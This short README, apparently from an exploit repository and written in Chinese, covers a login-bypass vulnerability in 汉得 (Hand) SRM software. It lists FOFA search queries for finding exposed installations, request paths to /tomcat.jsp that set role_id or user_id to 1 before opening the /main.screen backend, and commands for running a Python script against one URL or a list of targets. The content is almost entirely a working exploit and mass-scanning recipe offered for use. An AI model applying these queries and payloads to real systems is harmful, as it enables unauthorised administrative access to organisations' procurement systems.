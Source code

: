 fofa

```markdown
body="汉得SRM"
title="汉得SRM"
web.body="汉得SRM"
```

payload

```markdown
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
然后访问后台：/main.screen
```

命令

```markdown
python3 汉得SRM tomcat.jsp 登录绕过漏洞.py -u url
python3 汉得SRM tomcat.jsp 登录绕过漏洞.py -f url.txt
```

